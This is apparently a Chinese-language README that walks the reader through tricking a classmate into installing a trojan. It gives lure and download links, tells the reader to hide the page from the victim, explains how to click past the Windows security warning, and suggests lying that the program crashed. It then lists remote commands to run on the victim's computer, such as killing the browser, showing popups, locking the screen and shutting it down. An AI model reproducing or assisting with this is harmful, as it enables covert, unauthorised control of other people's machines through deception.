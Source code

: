 # 让同伴打开以下网站：

https://b.helloosme.eu.org/

别把这个页面暴露给了同伴！！！

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

https://osfiles.pages.dev/register.exe

https://osfiles.pages.dev/showmsg.exe

打开`此电脑`，然后打开`C:\`，然后打开`Users`文件夹或`用户`文件夹，然后打开`Lenovo`文件夹，然后打开`下载`文件夹或`Downloads`文件夹;

打开`register.exe`然后点击最小化图标:
![](https://questionimg.3d66.com//answers/question/20210815/4717e3433d32f4dda61aa8dba7c61f3d.gif)

记住一定要比同伴的`ob.exe`先打开，同伴打开`ob.exe`后叫其稍等，等出现以下弹窗

 <h2>Q:出现"windows已保护你的电脑"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
点击"更多信息"，再点击"仍要运行"即可。

谎称程序崩溃，要让我重新开发，等同伴看视频/做题时，重新调出那个register.exe窗口（屏幕最底下那个黑框框里有个register.exe程序图标，点一下）

当程序窗口内出现`目标连接成功`后即为成功植入木马。

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
